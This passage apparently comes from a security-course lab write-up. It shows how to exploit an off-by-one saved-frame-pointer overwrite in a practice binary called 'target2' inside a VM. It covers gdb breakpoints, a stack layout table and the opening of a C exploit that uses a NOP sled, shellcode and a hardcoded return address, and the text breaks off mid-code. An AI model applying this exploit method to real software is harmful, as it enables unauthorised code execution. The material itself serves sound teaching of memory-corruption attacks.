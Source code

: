 Now in the VM, we start gdb in the same fashion as exercise 1:

```bash
gdb -e sploit2 -s target2
# in GDB
catch exec
run
```

This time we break at the end of the `bar` function right after the `nstrcpy` execution. To do so we run the command:

```bash
disassemble bar
```

This will show us the instructions addresses of the function. To break at the end of the function we break at the address of the `leave` instruction with the command:

```bash
break *0x080484a6 # might differ on other machines
```

and then continue execution with the command `continue`. At the breakpoint we print out our buffer by issuing the command `x/80x $sp`.  By now the contents of `buf` can be visualized : a series of `0x90` NOP instruction followed by the bytes of the shellcode and the dummy address `0x41414141` = `AAAA`.

As in the first exercise, by looking at the memory addresses of the stack, we choose an address pointing to the series of NOP instruction to replace `AAAA` . In our case, we choose the address `0xbffffd40`.

Now we still need the find the value of the overwriting byte. To do so we need to find the address where the placeholder values `0x41414141` are located. In our case the line of the output containing the placeholder contains the following values:


| Stack Addresses | `0xbffffd70`         | `0xbffffd74`       | `0xbffffd78` | `0xbffffd7c`            |
| --------------- | -------------------- | ------------------ | ------------ | ----------------------- |
| **Values**      | `0x68732f6e`         | `0x41414141`       | `0xbffffd00` | `0x080484be`            |
| __Description__ | last shellcode bytes | placeholder `AAAA` | `ebp_bar`    | return address of `bar` |

As we can see, our shellcode address will be located at the stack address `0xbffffd74` which means that the modified `ebp_bar` should have value `0xbffffd70` (= `0xbffffd74` - 4). Since `ebp_bar` is originally equal to `0xbffffd00`, the last byte needs to be changed to `0x70`.

Now that we have all the addresses, we modify our payload the following way: (the comments show the changes)

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include "shellcode.h"

#define TARGET "target2"
#define NOP 0x90
// The overwriting byte
#define LAST_BYTE 0x70

int main(void)
{
  char *args[3];
  char *env[1];
  // address to the shellcode
  char jump_addr[] = "\x40\xfd\xff\xbf";
  args[1] = malloc(241);

```